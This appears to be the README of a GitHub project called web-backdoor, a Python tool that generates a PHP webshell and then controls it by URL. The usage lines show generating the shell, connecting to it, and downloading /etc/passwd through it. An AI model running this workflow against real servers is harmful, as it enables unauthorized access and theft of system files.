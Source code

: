 # web-backdoor




![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB.PNG)

# generate shell
<p>  ./web-backdoor.py -g shell

![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB31.PNG)

# run shell 

<p>  ./web-backdoor.py  -u http://127.0.0.1/shell.php

![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB32.PNG)

# download file
<p> download /etc/passwd

![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB33.PNG)


                                                                  
 # platform : Python3                                           
<p>  ./web-backdoor.py  [options]

[options]

<p> -u    ,   --url   :         url for uploaded shell
<p>  -g    , --generate          generate webshell


 usage                                          
<p>  ./web-backdoor.py  -u http://127.0.0.1/shell.php
<p>  ./web-backdoor.py  -g shell
<p>  ./web-backdoor.py  --url http://127.0.0.1/shell.php
<p>  ./web-backdoor.py  --generate shell

<h1> [ @intx0x80 ]


